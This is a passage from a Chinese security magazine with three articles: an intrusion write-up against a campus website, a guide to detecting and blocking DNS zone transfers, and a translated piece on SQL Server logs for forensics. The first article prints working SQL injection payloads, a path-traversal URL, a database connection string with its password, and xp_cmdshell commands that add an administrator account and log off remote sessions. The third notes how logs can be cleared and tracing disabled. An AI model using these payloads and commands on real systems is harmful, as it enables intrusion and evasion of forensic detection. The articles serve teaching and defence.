如果返回值正常，则说明存在 admin 表，反之则不存在。至于常见的表名和字段名，有一个小窍门：可以去那些注入工具里面找一找，一般都会以 txt 文件形式保存，也方便进行扩展；有些也以数据库 mdb 文件形式保存，用辅助工具打开即可。这里我们猜解到存在表 user。

- 2. 猜解字段

方式为：

```text
a%' and exists(select top 1 name from user) and '%='
```

若返回值正常，则说明存在 name 字段。这里猜解到存在字段 name、password 等。

- 3. 猜解内容

先确定长度，方式为：

```text
a%' and (select top 1 len(password) from user)>0 and '%='
```

判断第一个密码的第一位方式如下：

```text
a%' and (select top 1 asc(mid(password,1,1)) from user)>0 and '%='
a%' and (select top 1 unicode(substring(password,1,1)) from user)>0 and '%='


```

一般 asc 对应 Access 数据库，unicode 对应 MSSQL 数据库。对每一位值，得出来之后去查 ASCII 表。这样，很容易猜解出来首条记录中 name 为王某某，password 为 syslenuser。我试着登录，试了一下，竟然不能登录。我就觉得用中文名登录不太靠谱，但又猜不出其他字段了。

### 下载漏洞

没办法，只能去找其他漏洞。对整个网站进行测试，终于又发现了一个严重的下载漏洞。原链接为“/download.aspx?url=创新计划表格.doc”，对 url 参数进行变更，变为“/download.aspx?url=..\Default.aspx”即可下载到 default.aspx 的源码文件，如图 2 所示。
图 2 下载漏洞

有了这个下载漏洞，可以做很多事情。我首先下载了登录验证页面 login.aspx 和 login.aspx.cs，这样就直接找出了真正的登录字段名 txtusername，马上放到注入漏洞中去猜解，得到了首个用户名为 admin2010，这回总算能成功登录了。后台界面如图 3 所示。

接着按部就班，寻找上传点，发现有多处地方可以上传图片或附件，而并不是所有的地方过滤都很严格，于是顺利上传 webshell，如图 4 所示。
图 3 登录后台
图 4 上传 webshell

### 提权之路

提权可归纳为三种方式。一是针对操作系统的提权，包括自身漏洞如缓冲区溢出，获取密码文件并破解系统密码等；二是通过第三方软件的提权，我们比较关心的有数据库、FTP，还有远控软件等；三是 webshell，这得看系统赋给它多少权限了，如果是最高权限并可以执行 cmd 命令的，那就可以直接提权了。

通过端口扫描，发现 1433 端口是开启的，于是我便想找密码文件。在 web.config 文件里，找到了如下内容：`<add name="ConnectionString" connectionString="Data Source=(local);Initial Catalog=innovation;User ID=sc;Password=895827$$">`，直接是 sa 权限，太令人兴奋了。用 SQL 查询分析器进行连接，顺利连上了，马上添加用户：

```sql
exec xp_cmdshell 'net user lanz 123 /add'
exec xp_cmdshell 'net localgroup administrators lanz /add'
```

不过出现了如图 5 所示的错误，看来管理员把 xp_cmdshell 命令给关闭了，没关系，重新开启它就行了。在 SQL 中的命令为：

```sql
-- To allow advanced options to be changed.
EXEC sp_configure 'show advanced options', 1
GO
RECONFIGURE
GO
-- To enable the feature.
EXEC sp_configure 'xp_cmdshell', 1
GO
RECONFIGURE
GO


```
图 5 连接数据库

图 6 远程桌面登录

重新打开 SQL 查询分析器之后就可以顺利执行 cmd 命令了。加完账户，最后尝试 3389 登录，却返回了“终端服务器超出了最大的连接数”的提示。没关系，在数据库里执行如下命令：

```sql
exec xp_cmdshell 'query user'
```

显示已经登录的有两个用户，只要注销掉其中一个就可以了：

```sql
exec xp_cmdshell 'logoff 1'


```

再次进行 3389 登录，已经可以顺利进来了，至此入侵提权过程已经全部结束，如图 6 所示。

### 防范措施

从渗透测试的过程可以看出，此校园网站存在诸多安全漏洞，第一便是 SQL 注入。虽然该网站对 URL 中以 GET 方式传进来的数字型、乃至字符型参数都进行了安全过滤，但显然忽略了以 POST 方式传递的搜索型参数。防范 SQL 注入，要牢记一个原则：从客户端以任何方式传进来的任何参数都必须过滤。

第二，此校园网站对于文件下载漏洞，也存在过滤的问题。首先要限制可下载的文件目录，并且严格过滤文件名中可以导致目录穿越的字符串 ../ 以及它的各种编码变形；再者可对下载的文件后缀名作限制，建立白名单机制，如只允许下载 doc、xls、rar、zip 等类型的文件。

第三个问题是数据库权限的问题。sa 是 MSSQL 的最高权限，完全没有必要分配这么高的权限，分配一个普通权限供 Web 页面连接即可；另外去掉 xp_cmdshell 存储过程并删除 xpsql70.dll 文件。最后是端口违规，1433 是数据库连接端口，建议配置成只允许本地连接，禁止其进行远程访问。而 3389 是远程桌面端口，也应该关闭。

前置知识：无  
关键词：区域传送、防御

## 漫谈区域传送的威胁和防御
文/图 古典娃娃

### 什么是区域传送

如果大家关注过乌云漏洞报告平台的话，就会经常看到类似 http://www.wooyun.org/bugs/wooyun-201001522 这样的 DNS 域传送泄露漏洞。可能有很多朋友不太了解这是什么东西，所以我就写了这篇文章来给大家介绍一下。

区域传送（Zone Transfer）是在 DNS 服务器之间复制区域数据库文件的过程。DNS 服务器常常要通过更新的动作更新 Zone 区域内的数据，DNS 服务器之间的 Zone Data（区域信息）是经常要进行比对与交换的，如此才能确保查询到的数据是正确的。

除了服务器之间进行数据的传送外，在进行 DNS 排错时也常使用这种方法将对方服务器的区域信息列出来。正常情况下，在一个信任的网域里面将这些资料列出是没有问题的，但若是能从外界来看到这些信息将有危险。试想一下，若有人能将你家中的摆设都摸得一清二楚，是不是相当恐怖呢？而且目前已有多种技术可以用来攻击 DNS 服务器，如利用虚假 IP 地址替换域名系统表中的地址、注册劫持、DNS 欺骗等。防御这些攻击的最简单方法之一，即限制在指定的 DNS 服务器之间的区域传送。

### Windows 下检测区域传送

在 Windows 系统下用 Nslookup 命令即可检测 DNS 服务器是否提供区域传送，但先要通过 whois 等方法查询目标网站的 DNS 地址。可以用这个小工具来查询：http://www.yangqixin.com/attachments/month_1007/22010722223833.zip，如图 1 所示。在获取 DNS 地址之后，就可以利用 Nslookup 命令来测试它是否允许对外传送 DNS 信息了。图 2 所示的就是允许对外传送 DNS 信息的结果。

（见图 7）等多个 DNS 安全检测工具，它们都可以用来检测 DNS 服务器是否允许对外传送区域信息。这些小工具的使用方法都非常简单，大家看一看图应该就会用了。
图 3
图 1
图 4
图 2
图 5

### Linux 下检测区域传送

在 Linux 下就更加方便了，Linux 本身就自带了 whois 命令（参见图 3）。我这里使用的 backtrack 4 R2 里面就带有 Fierce（参见图 4）、Dnsenum（参见图 5）、Dnswalk（参见图 6）、Dnsrecon（参见图 7）等多个 DNS 安全检测工具。
图 6
图 7

### 加固 BIND DNS 服务器

说完了检测之后，再简单介绍一些加固方法吧。BIND 的默认设置中的 Zone Transfer 选项是全部开放的，这是很危险的，但可以在 /etc/named.conf 文件配置 ACL（访问控制列表）来指定允许区域传送的 IP。比如想允许 102.169.191.10 和 125.111.124.6 这两个地址进行区域传送，代码如下所示：

```conf
# /var/named.conf
acl trusted-servers {
    102.169.191.10; //ns2
    125.111.124.6;  //ns3
};
zone ngsst.com {
    type master;
    file "zones/ngsst.com";
    allow-transfer { trusted-servers; };
};


```

设置好 IP 之后重新启动即可（# /etc/init.d/named restart）。更改配置之后再测试一下区域传送是否正常工作，可以采用 UNIX/Linux 下的 DNS 工具命令，如 nslookup、host、dig 等，也可以用上面介绍的 backtrack 里面的工具。

### 加固 Windows DNS 服务器

这里介绍的操作是在 Windows 2008 R2 的 DNS 服务器上设置的，首先单击“开始”→“管理工具”→“DNS”→“DNS 管理器”，右键单击 DNS 区域，然后单击“属性”。

- 在“区域传送”选项卡上选择是否允许区域传送：
  - 禁用区域传送，请清除“允许区域传送”复选框。
  - 允许区域传送，请选中“允许区域传送”复选框。
- 如果已允许区域传送，则有以下 3 个选择：
  - 单击“到所有服务器”，允许区域传送到所有服务器；
  - 单击“只有在‘名称服务器’选项卡中列出的服务器”，允许区域仅复制到“名称服务器”选项卡上列出的 DNS 服务器；
  - 单击“只允许到下列服务器”，然后添加一个或多个 DNS 服务器的 IP 地址，允许区域仅复制到特定的 DNS 服务器。

到这里对于区域传送就介绍完了，希望能对大家有所帮助。

前置知识：无  
关键词：SQL、数据库、安全

## SQL Server 数据库系统日志安全侦察
译 邪公子

在现在的网络犯罪中，针对数据库的攻击已经越来越复杂，而非简单地挂一个黑页或网马，原因在于黑客们认识到数据库中的数据才是更重要的，比如银行系统数据库中的数据、招生系统中的数据、全国考试系统中的数据等。而且针对数据库的攻击在不断增长，由此造成的危害当然是不言而喻的。

本文主要介绍的是 SQL Server 数据库系统的日志机制，通过一步步剖析，让读者可以更加理解 SQL Server 系统的日志机制，从而可以进行更好的取证和反取证。本文中选择的是 SQL Server 2005 版本。

## SQL Server 的日志系统

我们这里安装的是带 SP2 的 SQL Server 2005 系统。本文所涉及的技术适用于大多数 SQL Server 早期版本，变动不大。

- SQL Server 错误日志。
- Windows 应用程序日志。
- 默认跟踪。
- 事务日志。

这些日志通常以文件的形式保存在硬盘或者数据库中，同时取证人员还可以在内存中发现一些有价值的信息。这些地方都将提供最近的入侵者痕迹，以便于取证人员取证分析。

### SQL Server 错误日志和 Windows 应用程序日志

SQL Server 在运行中会将产生的错误信息存放于自己的错误日志和 Windows 应用程序日志中，这两个部分都可以作为取证源，虽然这两部分会有重复。

以下摘自 SQL Server 书原文：

> SQL Server logs certain system events and user-defined events to the SQL Server error log and the Microsoft Windows application log. Both logs automatically timestamp all recorded events. Use the information in the SQL Server error log to troubleshoot problems related to SQL Server.
>
> The Windows application log provides an overall picture of events that occur on the Windows operating system, as well as events in SQL Server and SQL Server Agent.

SQL Server 同时将日志信息保存在错误日志和系统应用程序日志中，方便管理员尽快查看和查找到某些相关联的信息。假如 SQL Server 只具备 DBA 权限，那么它将无法对系统应用程序进行某些操作来覆盖 SQL Server 的恶意行为，但它完全具备清除自身错误日志的权限。

### 读取和清除 SQL Server 错误日志信息

SQL Server 日志信息存放于 SQL Server 安装目录下的 log 文件夹中，默认情况下，日志文件最多到 7 个，分别命名为 ERRORLOG、ERRORLOG.1、ERRORLOG.2、ERRORLOG.3、ERRORLOG.4、ERRORLOG.5、ERRORLOG.6。ERRORLOG.6 永远保存最古老的错误信息，ERRORLOG 永远是当前所用的日志的存储位置，每重启一次系统，当前 ERRORLOG 就自动命名为 ERRORLOG.1，后面的日志文件名依次更改，这称为 SQL Server 的错误日志循环。我们可以手动操作日志，通过系统扩展 sp_cycle_errorlog，当 sp_cycle_errorlog 被执行的时候，就有一个信息存进当前日志文件，包括日志发生的时间、源、描述信息等。日志文件是文本文件，可以通过文本编辑器进行查看，下面给出的是本机的一些截图，如图 1 与图 2 所示。
图 1

下面的语句用于获取 SQL Server 错误日志的信息：
图 2

上面的语句返回当前错误日志文件名及完整路径。

```sql
EXEC master.dbo.xp_enumerrorlogs
```

以上语句返回所有当前存储的错误日志列表。

```sql
EXEC master.dbo.xp_readerrorlog 0, 1, NULL, NULL, NULL, NULL, N'desc'
```

以上语句读取指定错误日志信息。第一个参数是错误日志的编号，0 表示当前的日志文件，6 表示最老的日志文件。第二个参数是一个符号标记，1 代表 SQL Server 服务器，2 代表 SQL Agent，中间四个参数未标明，最后一个参数 desc 代表递减显示，也可以用参数 asc，表示递增显示。

写入应用程序日志的事件将更加详细和有关联性，方便管理员使用事件管理器尽快排查出问题所在。

## SQL Server 和 Windows 应用程序日志的日志事件

- 失败的登录尝试（成功登录可选）。
- 备份和恢复。
- 扩展存储过程加载的 dll。
- 服务器选项被禁用和启用（sp_configure）。
- 一些 dbcc 命令。
- 故障信息。
- 其他以上未列出所有事件。

进行安全取证时除了日志事件外，还需要其他的证据来源，我们稍后讨论。首先，看一看在错误日志中无法找到的事件类型：

- 执行扩展存储过程。
- 选择语句。
- 一些 dbcc 命令的执行。
- DDL 语句。
- DML 语句。

所以错误日志无法记录所有事件；我们无法从错误日志中确定数据及结构是否发生变化，或者语句是否成功执行。

### 1．默认跟踪

“默认跟踪”选项默认是启用的，它为管理员解决问题提供了必要的日志信息，同时也为我们进行取证提供了丰富的信息。

“默认跟踪”文件和 SQL Server 错误日志存放于同一目录，以 log_X.trc 方式命名，其中 X 是一个数字。该文件在以下情形中将被创建：

- SQL Server 启动或重启。
- “默认跟踪”选项被改变（从 0 到 1，或从 1 到 0）。
- 当前的文件超过 20MB。

当一个新的日志文件被创建时，它的命名是 log_X+1.trc 形式；系统默认情况下最多有 5 个默认跟踪文件，超过 5 个时最早的将被删除。

我们可以通过存储过程启用和禁止“默认跟踪”选项，默认情况下系统是启用该选项的：

```sql
exec sp_configure 'default trace enabled', 0 -- 禁用
exec sp_configure 'default trace enabled', 1 -- 启用
```

我们还可以通过语句查询默认跟踪的状态，0 为禁用，1 为启用。语句如下：

```sql
exec sp_configure 'default trace enabled'
```

该日志文件以二进制格式保存，无法直接查看，但可通过配置工具或 fn_trace_gettable 查看，如下：

```sql
SELECT * FROM fn_trace_gettable('C:\Program Files\Microsoft SQL Server\MSSQL\MSSQL\LOG\log.trc', default)
```

该语句将显示所有默认跟踪信息，数量会相当大。SQL Server 也提供了方法可以找出所有默认跟踪的运行记录，如下：

```sql
SELECT * FROM master.sys.traces
```

该语句将返回一个 18 列的表，其中有一些是非常有用的，如下：

- Id：跟踪标识，以数字表示。
- Is_default：如果值为 1，代表为默认设置。
- Status：当前跟踪状态，0 为禁止，1 为启用。
- Start_time：“默认跟踪”被启用的时间。
- Last_event_time：最近记录的时间。
- Event_count：被记录事件的编号。

注意：默认跟踪不能被暂停或者停止，但是可以通过系统设置为启用或禁用。

### 2．默认跟踪抓取的事件

默认情况下，它同样也抓取记录进入 SQL Server 错误日志和应用程序的日志类型，它还抓取一些其他的事件类型，这将非常有利于我们进行取证分析。

“默认跟踪”记录的事件类型如下：

- 失败的登录尝试。
- 登录创建/删除/修改。
- 使用的跟踪相关的表、函数、存储过程等。
- 服务器选项被禁用/启用。
- 组件的创建和删除。
- 备份和恢复语句。
- DBCC 命令。
- Deny、Grant 和 Revoke 等语句。

虽然“默认跟踪”大大丰富了所提供的错误日志，但还有一些关键的操作是没有被记录的。“默认跟踪”不记录信息数据已被读取或修改。要查找该类信息，我们需要寻找其他证据源。没有被“默认跟踪”记录的事件有：

- 扩展存储过程的执行。
- 选择语句。
- DML 语句。

### 3．事务日志

每一个企业数据库系统基本上都会采用一种机制实现数据库的回滚，一般说来都会通过日志文件来实现。该日志文件会记录数据的变化，包括之前和之后的数据。引入事务处理是应对可能出现的数据错误的好方法，但也要付出巨大代价——用于存储点、回滚和并发控制所需要的 CPU 时间和存储空间。

以下语句摘自 SQL Server 原文：

> Every Microsoft SQL Server 2005 database has a log that records all the transactions and database modifications made by each transaction. The transaction log is a critical component of any database and understanding and managing this log is a critical part of the database administrator's role...

在我们详细了解事务日志之前，先了解一下 SQL Server 的几种恢复模式。通常有简单恢复、完全恢复、大容量日志恢复三种模式，最常用的是简单恢复和完全恢复两种。

当一个数据库被设置为简单恢复模式时，记录入事务日志的信息将很少，并且不会被备份，日志文件将会不断地被覆盖重写。

当一个数据库被设置为完全恢复模式时，所有事件将会被记录，直到备份日志。在完全恢复模式中，我们可以将其恢复到备份期间任意点。

我们可以在 SQL Server 中执行命令查询当前运行的恢复模式，具体语句如下（第一个参数为数据库的名称）：

```sql
SELECT DatabasePropertyEx('databasename', 'Recovery')
```

了解了恢复模式的基本知识后，我们继续深入了解事务日志。通常事务日志以 ldf 为扩展名。